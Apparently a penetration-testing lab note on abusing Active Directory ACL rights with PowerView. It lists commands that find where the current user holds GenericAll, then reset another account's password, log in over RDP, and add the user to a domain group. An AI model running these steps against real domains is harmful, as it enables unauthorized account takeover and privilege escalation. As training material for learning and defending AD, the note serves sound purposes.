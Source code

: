 ```
. .\powerview.ps1
Get-ObjectAcl -Identity offsec

```


Enumerate ActiveDirectoryRights:
```

Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

```

If `ActiveDirectoryRights = GericAll` of an account(such as `ObjectDN: CN=TestService1,OU=prodUsers,DC=prod,DC=corp1,DC=com`), this mean, we have full access to `TestService1`.

We can change the user account password without knowing the old password:

```
net user testservice1 h4x /domain

```

Now we can login to that account:
```
mstsc /v:appsrv01 /prompt
```


We also can add ourselve to domain group if it has GenericAll right:

```

Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

```
![[Pasted image 20210702193029.png]]

Add our username to the group:
```
net group testgroup offsec /add /domain
```

